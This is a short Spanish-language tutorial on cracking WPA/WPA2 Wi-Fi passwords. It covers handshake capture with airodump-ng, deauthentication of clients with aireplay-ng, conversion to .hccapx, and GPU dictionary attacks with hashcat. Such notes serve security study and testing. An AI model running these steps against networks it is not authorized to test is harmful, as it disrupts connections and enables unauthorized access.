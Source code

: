 # Cracking WPA/WPA2 con Hashcat

Este método utiliza la potencia de una tarjeta gráfica (GPU) para descifrar contraseñas WPA2 de manera más eficiente que los métodos tradicionales basados en CPU. Para ello, se emplea la herramienta **Hashcat**, que permite aprovechar la capacidad de cálculo de la GPU para agilizar el proceso.

***

#### **Pasos del proceso**

**Capturar paquete**&#x20;

```
airodump-ng --channel 6 --bssid -w  <archivo_salida> wlan0 
```

**Enviar paquetes de desautenticacion**&#x20;

```
aireplay-ng --deauth 10 -a -c wlan0mon
```

**Conversión del archivo Handshake**

Convierte el archivo `.cap` al formato `.hccapx` necesario para Hashcat. Usa `hcxpcapngtool` o una herramienta similar.

```bash
hcxpcapngtool -o archivo_convertido.hccapx archivo_original.cap
```

***

**Preparar el ataque**

* **Cargar el archivo handshake:** Añade el archivo `.hccapx` previamente convertido.
* **Seleccionar tipo de cifrado:** WPA2 corresponde al hash tipo `2500`.
* **Añadir wordlist:** Utiliza una lista de posibles contraseñas, como `rockyou.txt`.

**Descifrar la clave**

```bash
hashcat -m 2500 -a 0 archivo_convertido.hccapx rockyou.txt --force
```

***

**Ejecutar Hashcat con GPU**

Para asegurarte de usar la GPU, verifica y selecciona los dispositivos disponibles.

**Comandos para listar dispositivos**

```bash
hashcat -I
```

#### **Descifrar la clave**

```bash
hashcat -m 2500 -a 0 archivo_convertido.hccapx wordlist.txt --opencl-device-types 1
```

* `--opencl-device-types 1`: Utiliza exclusivamente la GPU.
